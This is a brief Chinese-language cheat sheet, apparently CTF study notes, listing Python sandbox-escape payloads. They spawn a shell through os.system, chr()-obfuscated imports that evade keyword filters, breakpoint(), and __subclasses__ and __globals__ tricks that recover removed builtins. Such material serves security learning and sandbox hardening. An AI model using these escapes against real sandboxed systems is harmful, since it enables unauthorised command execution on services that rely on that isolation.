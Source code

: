 
注意：python 3.7 以上支持[斜体字母](https://lingojam.com/ItalicTextGenerator)作为关键字

```python
import os
print(os.getcwd()) # 工作目录
print(os.environ)  # 环境变量
__import__('os').environ # 另一种方法
__import__('os').system('sh')

output = os.popen('ls').read() # 执行命令并获取输出
print(output)

chr(int(99+9+9/9+9/9+9/9)) # o
chr(int(99+9+9-9/9-9/9))   # s
chr(int(99+9-9/9-9/9-9/9-9/9)) # h
__import__(chr(int(99+9+9/9+9/9+9/9))+chr(int(99+9+9-9/9-9/9))).system(chr(int(99+9+9-9/9-9/9))+chr(int(99+9-9/9-9/9-9/9-9/9))) # __import__('os').system('sh')
```

chr 数字转字符，ord 字符转数字。

拿到 shell 的多种方法

```python
breakpoint()  # 进入 pdb，然后为所欲为
().__class__.__base__.__subclasses__()[-73].__init__.__globals__['system']('sh') # 在 __builtins__ 被橄榄之后，通过用 -1 ~ -150 替换“-73”来拿到 shell
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']("os").system("ls")
```